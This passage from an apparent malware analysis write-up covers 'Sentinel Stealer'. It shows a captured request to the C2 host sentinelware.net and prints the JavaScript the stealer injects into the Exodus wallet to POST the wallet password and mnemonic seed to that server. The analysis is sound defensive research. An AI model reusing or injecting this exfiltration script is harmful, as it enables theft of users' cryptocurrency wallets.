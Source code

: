 After executing the malware in a debugger and successfully downgrading its traffic from `HTTPS to HTTP`, we were able to capture the details of the POST request it generates.

```text
POST /SentinelC2/GetKey HTTP/2
Host: sentinelware.net
Content-Type: multipart/form-data; boundary="f22be721-0ba4-47bd-b412-1bc1ba7a028c"
Content-Length: 329
Expect: 100-continue

--f22be721-0ba4-47bd-b412-1bc1ba7a028c
Content-Type: application/json; charset=utf-8
Content-Disposition: form-data; name=shh

547560
--f22be721-0ba4-47bd-b412-1bc1ba7a028c
Content-Type: application/json; charset=utf-8
Content-Disposition: form-data; name=username

ConorJames
--f22be721-0ba4-47bd-b412-1bc1ba7a028c--
```

*Unfortunately, as of the time this article is being written, the C2 server is not responding to our GetKey request. This lack of response means our malware sample is unable to function as intended. Additionally, there are no other operational samples available on VirusTotal. Consequently, our analysis will proceed by bypassing certain aspects of the malware that require the AES Key and IV from the C2 server, focusing instead on dissecting and understanding other functionalities of the malware.*

Sentinel Stealer stands out from standard stealers with its support for `Electron` and `Wallet Injection`. If enabled during the malware's build process, it can unpack `.asar` packages and inject malicious scripts, adding a sophisticated layer to its capabilities.

As you can see in the screenshot, Sentinel Stealer checks for the existence of an `app.asar` file in the `Exodus` installation path. If this file is present, the malware unpacks it and injects a malicious script. The purpose of this script is to steal sensitive data such as the `Exodus Password` and `Exodus Mnemonic`.

![Untitled](/assets/img/sentinel/13.png)

The malicious script injected by Sentinel Stealer is programmed to transmit the stolen data to the `/SentinelC2/Exodus` path at the C2 server's address.

```jsx
const request = new XMLHttpRequest();
const url = "https://sentinelware.net/SentinelC2/Exodus";
request.open("POST", url);
const formData = new FormData();
formData.append("ExodusPassword", e);
formData.append("ExodusMnemonic", this._seed.mnemonicString);
formData.append("username","%USERNAME%");
formData.append("uid", "%UID%");
request.send(formData);
```
